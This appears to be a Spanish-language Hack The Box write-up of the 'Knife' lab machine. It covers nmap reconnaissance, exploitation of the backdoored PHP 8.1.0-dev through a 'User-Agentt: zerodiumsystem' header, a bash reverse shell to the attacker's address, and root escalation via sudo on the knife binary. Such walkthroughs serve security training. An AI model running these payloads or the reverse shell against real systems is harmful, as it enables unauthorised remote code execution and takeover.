 Knife es una máquina linux de nivel fácil, creada por [MrKN16H7](https://app.hackthebox.eu/users/98767), en la que vamos a explotar un bug de PHP para conseguir una RCE
y ejecutar un binario como root para convertirnos en él.

![imagen](https://user-images.githubusercontent.com/71317374/131216908-df335eaa-0496-43e5-bc76-2d77ec7be9f9.png)

Según los seres vivos que hay por HackTheBox, la máquina es así:

![imagen](https://user-images.githubusercontent.com/71317374/131216886-9c9c8b8e-6fef-4467-914f-d108e367b3d5.png)

Muy CTF(y es así)

1 - [Reconocimiento inicial](#recon)

2 - [Reconocimiento profundo](#deeprecon)

3 - [Explotación](#exploit)

4 - [Escalada de privilegios y flag](#privesc)

# [Reconocimiento inicial] {#recon}

```bash
# Nmap 7.92 scan initiated Fri Aug 27 20:20:39 2021 as: nmap -p- --open --min-rate 3000 -sS -Pn -n -v 10.10.10.242 -oG ports -oN ports.nmap
Nmap scan report for 10.10.10.242
Host is up (0.30s latency).
Not shown: 51068 closed tcp ports (reset), 14465 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Aug 27 20:21:14 2021 -- 1 IP address (1 host up) scanned in 34.80 seconds
```

## Pequeña explicación de los parámetros de nmap
* -p-: Escanea todos los puertos.
* --open: Solo muestra los que están abiertos.
* --min-rate: Envía un mínimo de paquetes por segundo para que vaya más rápido, con un número muy alto, como 10000, puede dar falsos positivos o negativos. 
* -sS: TCP SYN Port Scan, agiliza un poco el escaneo ya que no espera a que se complete el [Three-Way Handshake](https://networksigma.com/tcp-3-way-handshake/).
* -Pn: Deshabilita el descubrimiento de host mediante pings a la máquina para comprobar si está activa.
* -n: Deshabilita la resolución DNS
* -v: Muestra los puertos a medida que los descubre
* -oG: Guarda el escaneo de nmap en diferentes formatos, -oG lo guarda en formato grepeable, para luego usar la [función extractPorts de s4vitar](https://pastebin.com/tYpwpauW)
* -oN: Guarda el escaneo como aparece por consola.

Los puertos abiertos son el 22, para obtener una shell segura(SSH), y 80, que hostea un servidor HTTP.

# [Reconocimiento profundo] {#deeprecon}

Ahora que tenemos los puertos abiertos de la máquina, vamos a enumerarlos(de forma básica) y a detectar la versión y servicio que corren.

```bash
❯ nmap -sCV -p22,80 10.10.10.242 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2021-08-28 15:47 CEST
Nmap scan report for 10.10.10.242
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```

# Explotación {#exploit}

Si vamos a la página web, lo primero que encontramos es esto, un servidor Apache con PHP 8.1:

![imagen](https://user-images.githubusercontent.com/71317374/131220276-fec35a9e-4b46-4692-b37f-6d8bef6caf25.png)

Si buscamos exploits para la versión de Apache que corre no encontramos nada, en cambio, si buscamos exploits para la versión de PHP que corre, encontramos uno muy interesante que nos permite ejecutar código mediante la cabecera `User-Agentt: zerodiumsystem("[comando]");` en la petición.

> An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header. 

[https://flast101.github.io/php-8.1.0-dev-backdoor-rce/](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/)

Esto se puede hacer de tres formas: con un script automatizado para ello, con cURL mediante el parámetro -H o interceptando la petición con BurpSuite y añadiendo esta cabecera.

## Explotación con cURL

cURL tiene el parámetro -H, mediante el cual le puedes asignar más cabeceras a tu petición si son necesarias, entonces si le añadimos la cabecera `User-Agentt: zerodiumsystem("[comando]");` podríamos ejecutar comandos a nivel de sistema en la máquina. El comando sería así:
 ```bash
 ❯ curl -s -H 'User-Agentt: zerodiumsystem("whoami");' 10.10.10.242 | grep -i doctype -B 1 | grep -v -i doctype
 ```
 Le he añadido grep para ver únicamente el resultado del comando, que se encuentra al principio del código de la página web.
 
 
## Explotación con BurpSuite
 
 Con BurpSuite hay que interceptar la petición hacia la página web, y modificarla con la misma cabecera de antes. Es recomendable pasar la petición al Repeater con Ctrl + R para poder modificarla como quieras y sin tener que recargar la página cada vez que vayas a ejecutar el comando. 
 
## Conseguir una Reverse Shell
 
 Ahora solo habría que ejecutar la Reverse Shell de siempre, si no la sabes es:
 
 ```bash
 bash -c 'bash -i >& /dev/tcp/tuip/puertoEnElQueTienesNC 0>&1'
 ```
 Y la petición quedaría así:
 
 ```bash
 GET / HTTP/1.1
Host: 10.10.10.242
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
User-Agentt: zerodiumsystem("bash -c 'bash -i >& /dev/tcp/10.10.14.49/443 0>&1'");
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Yyyyyy estamos dentrooooooo :D

![imagen](https://user-images.githubusercontent.com/71317374/131221770-5691e50a-7486-48ef-819f-9549fd457f4e.png)

# Flag y Privesc {#privesc}

Ahora mismo, si por cualquier cosa hiciera Ctrl+C tendría que volver a enviarme la shell, cosa que nadie quiere, así que tendremos que hacer [tratamiento de la TTY](https://www.thehackersnow.com/tratamiento-de-una-tty/)

Vale, ahora que tenemos una consola interactiva en el sistema, podríamos ir a ver la User Flag, ubicada en /home/james/user.txt:
```bash
james@knife:~$ cat user.txt | head -c 15;echo
cf42b739b6d4f75
```

Ahora que tenemos taambién la flag, habría que centrarse en la escalada de privilegios, si hacemos `sudo -l` para ver si podemos ejecutar algún comando o binario como otro usuario, obtenemos: 
```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Entonces podemos ejecutar **knife** como root, si buscamos en [gtfobins](gtfobins.github.io) sobre este binario, vemos que es capaz de correr código Ruby, y que se puede usar para escalar privilegios.

>Sudo
>
>If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain >privileged access.
>
>    `sudo knife exec -E 'exec "/bin/sh"'`

Así que ejecutamos ese comando y...

![imagen](https://user-images.githubusercontent.com/71317374/131222071-b59c07d1-a759-4382-9576-569e603afcfe.png)

Yasta, somos root y podríamos irnos a /root a recoger nuestro premio por conseguir el root.

Ha sido una máquina en la que no ha habido que enumerar mucho, lo cual la hace más rápida. Me ha gustado como hay que ganar acceso a la máquina y la historia detrás del bug de PHP. Si te ha gustado puedes darme una estrellita al blog :)

Y recuerda, Metasploit siempre es la solución.
